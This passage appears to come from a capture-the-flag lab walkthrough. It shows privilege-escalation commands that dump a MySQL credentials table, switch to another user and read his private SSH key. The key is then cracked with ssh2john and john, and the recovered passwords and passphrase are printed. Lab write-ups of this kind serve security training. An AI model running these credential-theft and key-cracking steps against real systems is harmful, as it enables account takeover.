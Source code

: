    mysql -u jason -p
    # empty password does not work
    # but jason creds works

    show databases;

    use users;

    show tables;

    select * from creds;
    # gives us creds "dennis:7AUgWWQEiMPdqx"

    exit

    su dennis

    cd
    # now we can enumerate dennis home directory

    ls -la .ssh
    # we have dennis SSH keys here

    sudo -l
    # nothing found

    # we can get dennis SSH key for now
    cat ~/.ssh/id_rsa
    # copy key contents

    # in attacker machine
    vim dennis_id_rsa
    # paste key contents, no newline

    chmod 600 dennis_id_rsa

    # crack key to get passphrase
    ssh2john dennis_id_rsa > dennis_id_rsa_hash

    john --wordlist=mut_pass.list dennis_id_rsa_hash
    # this gives us passphrase "P@ssw0rd12020!"
